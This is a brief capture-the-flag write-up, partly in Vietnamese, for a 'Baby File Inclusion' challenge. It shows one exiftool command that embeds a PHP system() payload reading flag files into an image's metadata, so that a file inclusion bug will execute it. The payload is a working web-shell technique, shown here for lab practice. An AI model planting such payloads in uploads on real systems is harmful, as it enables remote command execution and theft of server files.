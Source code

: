 ## Baby File Inclusion

Bài này sử dụng exiftool để chèn shell vào ảnh

`exiftool -Comment="<?php system('cat /flag*'); ?>" image.png -o shell.png"`

![Alt text](image.png)